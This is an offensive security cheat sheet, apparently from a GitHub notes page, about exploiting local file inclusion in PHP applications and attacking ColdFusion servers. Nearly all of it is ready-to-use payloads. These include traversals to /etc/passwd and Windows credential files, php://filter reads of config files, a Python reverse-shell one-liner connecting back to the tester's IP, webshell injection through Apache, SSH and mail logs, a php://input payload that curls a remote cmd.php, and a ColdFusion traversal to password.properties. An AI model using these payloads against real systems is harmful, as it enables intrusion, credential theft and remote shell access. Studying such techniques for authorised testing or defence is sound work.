 * Check for LFI

Add `/etc/passwd%00` to any GET/POST arguments. On windows try `C:\Windows\System32\drivers\etc\hosts%00` or `C:\autoexec.bat%00`.
A quick win could also be any of these files `c:\sysprep.inf`, `c:\sysprep\sysprep.xml` or `c:\unattend.xml` as they would contain local admin credentials. On linux it's worth checking `/proc/self/environ` to see if there are any credentials passed to the running process via env vars.

* Fetching .php files via LFI

`/index.php?somevar=php://filter/read=convert.base64-encode/resource=<file path>%00` this will return base64 encoded PHP file. Good for fishing up `config.php` or similar.

* Abusing /proc/self/environ LFI to gain reverse shell
In some situations it's possible to abuse `/proc/self/environ` to execute a command. For example:
`index.php?somevar=/proc/self/environ&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

* Apache access.log + LFI = PHP injection
If Apache logs can be accessed via LFI it may be possible to use it to our advantage by injecting any PHP code in it and then viewing it via LFI.

with netcat send a request like this:
```
GET /<?php system($_GET["cmd"]);?>

```

* auth.log + LFI     
`ssh <?php system($_GET["cmd"]);?>@targetIP` and then LFI `/var/log/auth.log`

* /var/mail + LFI     
`mail -s "<?php system($_GET["cmd"]);?>" someuser@targetIP < /dev/null` 

* php expect     
`index.php?somevar=expect://ls`

* php input     
`curl -X POST "targetIP/index.php?somevar=php://input" --data '<?php system("curl -o cmd.php yourIP/cmd.txt");?>'`
Then access `targetIP/cmd.php`

### ColdFusion


* is it Enterprise or Community?     
Check how it handles `.jsp` files  `curl targetIP/blah/blah.jsp`. If 404 - enterprise, 500 - community.

* which version?     
`/CFIDE/adminapi/base.cfc?wsdl` has a useful comment indicating exact version

* common XEE     
https://www.security-assessment.com/files/advisories/2010-02-22_Multiple_Adobe_Products-XML_External_Entity_and_XML_Injection.pdf

* LFI in admin login locale     
`/CFIDE/administrator/enter.cfm?locale=../../../../ColdFusion9\lib\password.properties` - may need full path. They can be obtained with help of  `/CFIDE/componentutils/cfexplorer.cfc`
